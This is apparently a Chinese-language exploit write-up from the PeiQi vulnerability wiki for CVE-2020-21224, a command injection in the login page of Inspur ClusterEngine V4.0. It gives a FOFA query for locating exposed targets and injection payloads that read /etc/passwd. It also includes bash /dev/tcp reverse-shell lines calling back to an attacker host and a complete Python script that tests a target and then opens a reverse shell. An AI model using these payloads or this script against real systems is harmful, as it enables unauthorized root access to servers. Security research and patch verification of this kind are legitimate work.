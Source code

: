 ```yaml
---
title: 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 浪潮
---
```


# 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](/img/20210924015358676485.png)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](/img/20210924015359216903.png)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有

一个 ' ，系统将抛出异常。

![](/img/20210924015359522910.png)

![](/img/20210924015359890163.png)

进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

![](/img/20210924015400220788.png)

定尝试发送 ' ' 来查看响应包。

![](/img/20210924015400530089.png)

我注意到 grep 命令错误，服务端的代码可能是这样

```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测

![](/img/20210924015402125511.png)

![](/img/20210924015402491451.png)

尝试读取  **/etc/passswd**

![](/img/20210924015404331886.png)

尝试列目录

![](/img/20210924015404666828.png)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](/img/20210924015405061461.png)

![](/img/20210924015405394981.png)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](/img/20210924015407895350.png)

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![](/img/20210924015408168013.png)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924015408428813.png)

## Goby & POC

> [!ONTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ClusterEngineV4.0_RCE

![](/img/20210924015409926556.png)



## 参考文章

https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

